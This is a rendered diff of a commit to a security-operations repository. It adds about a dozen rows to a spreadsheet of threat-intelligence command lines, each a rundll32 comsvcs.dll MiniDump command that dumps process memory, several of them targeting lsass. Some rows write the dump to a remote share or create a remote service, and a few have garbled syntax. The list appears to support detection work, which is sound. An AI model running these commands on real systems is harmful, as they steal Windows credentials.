

Before and after one commit to harveywargo2/SOC-Puppet, an Excel workbook: docs/TIP-CommandLine.xlsx, sheet Sheet1, drawn as a sheet; only a part is shown, gaps mark what is left out; the shorter side is filled out with more unchanged rows; long unchanged cells end in …; values as stored, in another font and other column widths than the file's, no borders; table styles not drawn; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
comsvcs update

```diff
--- a/docs/TIP-CommandLine.xlsx (sheet Sheet1)
+++ b/docs/TIP-CommandLine.xlsx (sheet Sheet1)
+row 34: COMSVCS | "C:\Windows\System32\rundll32.exe" C:\Windows\System32\comsvcs.dll MiniDump <PID> \Windows\Temp\<filename>.dmp full |  |  |  | https://gist.github.com/JohnLaTwC/3e7dd4cd8520467df179e93fb44a434e
+row 35: COMSVCS | .\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump <PID> C:\Users\Administrator\<filename>.dmp full |  |  |  | https://gist.github.com/JohnLaTwC/3e7dd4cd8520467df179e93fb44a434e
+row 36: COMSVCS | "C:\Windows\system32\sc.exe" \\server create Dump binpath= "C:\Windows\System32\rundll32.exe C:\Windows\System32\comsvcs.dll,MiniDump <PID> C:\dump.bin full" |  |  |  | https://gist.github.com/JohnLaTwC/3e7dd4cd8520467df179e93fb44a434e
+row 37: COMSVCS | "C:\WINDOWS\System32\WindowsPowerShell\v1.0\powershell.exe" -c rundll32.exe C:\Windows\System32\comsvcs.dll MiniDump <PID> C:\Users\username\Desktop\<filename>.DMP full |  |  |  | https://gist.github.com/JohnLaTwC/3e7dd4cd8520467df179e93fb44a434e
+row 38: COMSVCS | "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" & {C:\Windows\System32\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump <PID>Get-Process lsass).id $env:TEMP\lsass-<filename>.dmp full} |  |  |  | https://gist.github.com/JohnLaTwC/3e7dd4cd8520467df179e93fb44a434e
+row 39: COMSVCS | "Powershell" -c "rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump <PID>get-process lsass).id C:\Users\username\AppData\Local\Temp\<filename>.dmp full" |  |  |  | https://gist.github.com/JohnLaTwC/3e7dd4cd8520467df179e93fb44a434e
+row 40: COMSVCS | C:\Windows\system32\cmd.exe /c "echo string >NUL & powershell -ExecutionPolicy bypass -Command "$a = (Get-Process lsass).id; rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump <PID>a C:\Windows\TEMP\string\string\<filename>.dmp full" & exit" |  |  |  | https://gist.github.com/JohnLaTwC/3e7dd4cd8520467df179e93fb44a434e
+row 41: COMSVCS | C:\Windows\system32\cmd.exe /Q /c echo .\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump <PID> C:\Users\Administrator\<filename>.dmp full ^> \\127.0.0.1\C$\__output 2^>^&1 > C:\Windows\TEMP\execute.bat & C:\Windows\system32\cmd.exe /Q /c C:\Windows\TEMP\execute.bat & del C:\Windows\TEMP\execute.bat |  |  |  | https://gist.github.com/JohnLaTwC/3e7dd4cd8520467df179e93fb44a434e
+row 42: COMSVCS | C:\WINDOWS\System32\WindowsPowerShell\v1.0\powershell.EXE "rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump <PID>get-process lsass).id) C:\Windows\lsass_$(Get-Date -Format dd-MM-hh-mm-ss<filename>dmp full" |  |  |  | https://gist.github.com/JohnLaTwC/3e7dd4cd8520467df179e93fb44a434e
+row 43: COMSVCS | C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe powershell.exe -NoP -C C:\Windows\System32\rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump <PID>Get-Process lsass).Id \Windows\Temp\<filename>.dmp full;Wait-Process -Id (Get-Process rundll32).id |  |  |  | https://gist.github.com/JohnLaTwC/3e7dd4cd8520467df179e93fb44a434e
+row 44: COMSVCS | cmd /C "rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump <PID> \\ipv4\pwn\<filename>.dmp full" |  |  |  | https://gist.github.com/JohnLaTwC/3e7dd4cd8520467df179e93fb44a434e
+row 45: COMSVCS | cmd.exe /Q /c for /f "tokens=1,2 delims= " %A in ('"tasklist /fi "Imagename eq lsass.exe" | find "lsass""') do C:\Windows\System32\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump <PID> \Windows\Temp\<filename>.dmp full |  |  |  | https://gist.github.com/JohnLaTwC/3e7dd4cd8520467df179e93fb44a434e
```
Also changed, not shown: 11 added rows and 10 moved rows elsewhere in this sheet, 11 other files.
